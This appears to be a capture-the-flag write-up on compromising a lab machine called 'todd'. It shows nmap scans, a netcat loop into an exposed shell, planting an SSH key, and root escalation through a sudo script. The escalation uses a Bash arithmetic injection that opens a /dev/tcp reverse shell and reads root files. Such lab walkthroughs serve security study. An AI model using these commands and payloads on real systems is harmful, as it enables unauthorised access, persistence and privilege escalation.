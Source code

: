## Reconnaissance

### Initial Nmap Scan
```bash
$ nmap -sV -sC -p- 192.168.56.3 -A

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
2519/tcp  open  tcpwrapped
4470/tcp  open  tcpwrapped
...
```

### Second Nmap Scan Reveals Interesting Port
```bash
$ nmap -sV -p- 192.168.56.3
-----------
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
7066/tcp  open  unknown
...
```

Note: Port 7066 appears intermittently.

## Initial Access via Port 7066

### Persistent Connection Attempt
```bash
$ while true;do nc 192.168.56.3 7066;done
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
whoami
todd
```

### Establishing SSH Access
1. Generate SSH key on attacker machine:
```bash
ssh-keygen -t rsa -f todd
```

2. On target machine:
```bash
mkdir -p /home/todd/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCOd2qBPt87qsYOMlBoxpn6uTqyKwHLIXcNj8eO.... void-strike@athena" > /home/todd/.ssh/authorized_keys
```

3. Connect via SSH:
```bash
ssh todd@192.168.56.3 -i ~/.ssh/todd
```

## Privilege Escalation

### Checking Sudo Privileges
```bash
$ sudo -l
Matching Defaults entries for todd on todd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User todd may run the following commands on todd:
    (ALL : ALL) NOPASSWD: /bin/bash /srv/guess_and_check.sh
    (ALL : ALL) NOPASSWD: /usr/bin/rm
    (ALL : ALL) NOPASSWD: /usr/sbin/reboot
```

### Analyzing guess_and_check.sh
```bash
# check this script used by human 
a=$((RANDOM%1000))
echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file="/tmp/$((RANDOM%1000))"
sleep 1
false_file="/tmp/$((RANDOM%1000))"

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred || exit 2
```

### Method 1: File Creation Exploit
1. Create dummy files to increase probability:
```bash
for i in {1..600}; do touch /tmp/$i ;done
```

2. Run the script repeatedly until successful:
```bash
sudo /bin/bash /srv/guess_and_check.sh
```

### Method 2: Command Injection
1. Execute arbitrary commands through input:
```bash
Please Input [316]
[+] Check this script used by human.
[+] Please Input Correct Number:
>>>N[$(/bin/bash -i >& /dev/tcp/192.168.56.1/9001 0>&1)]
```

2. Set up listener:
```bash
nc -vlnp 9001
```

### Explanation of Command Injection
The input `N[$(cat /root/root.txt)]` is interpreted in an arithmetic context, causing Bash to attempt evaluating the flag contents as arithmetic, which fails and reveals the flag content in the error message.

## Root Access
Use the credentials from /root/.cred to switch to root:
```bash
su
Password: [content of /root/.cred]
root@todd:/home/todd#
```

Or via the reverse shell obtained through command injection.
